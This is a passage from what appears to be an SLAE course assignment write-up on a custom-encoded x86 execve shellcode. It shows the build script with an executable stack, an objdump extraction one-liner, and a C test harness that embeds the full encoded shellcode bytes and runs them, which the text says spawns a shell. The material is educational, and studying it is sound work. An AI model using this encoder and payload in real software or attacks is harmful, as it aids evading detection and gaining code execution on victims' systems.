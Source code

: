 The shellcode will be assembled and linked using the following bash script

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
```

The following command will produce the final shellcode

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment4</b></span># objdump -d ./decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
</pre>

The produced shellcode will be delivered and executed using the following program

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \

"\xeb\x39\x5e\x56\x31\xdb\x31\xc9\x31\xd2\xb2\x32\xc0\x06\x04\xf6\x16\x80\x06\x02\x80\x36\x2c\x46\x38\xd1\x74\x04\xfe\xc1\xeb\xec\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xc9\x38\xd1\x74\x12\x8a\x5c\x06\x01\x88\x1f\x47\xfe\xc1\x04\x02\xeb\xef\xe8\xc2\xff\xff\xff\x4e\xc1\x51\x2f\x58\x3c\xdb\xac\xef\x82\xef\x1c\x2a\xd9\xdb\x90\xdb\x6b\xef\x61\x3b\x1c\xcb\x24\xfb\xd6\xc5\x50\x23\xfa\x58\x9c\xc5\xb1\x33\x97\x28\x31\xc5\xaa\x43\xf9\x56\xf4\xad\xc2\x02\x16\x55\xe3";

int main()
{

printf("Shellcode Length: %d\n", strlen(code));

int (*ret)() = (int(*)())code;

ret();
}
```

<p style="text-align:justify;">
compiling and running the program will give the following result which is the execution of the&nbsp; /bash/sh command using the execve shellcode.
</p>
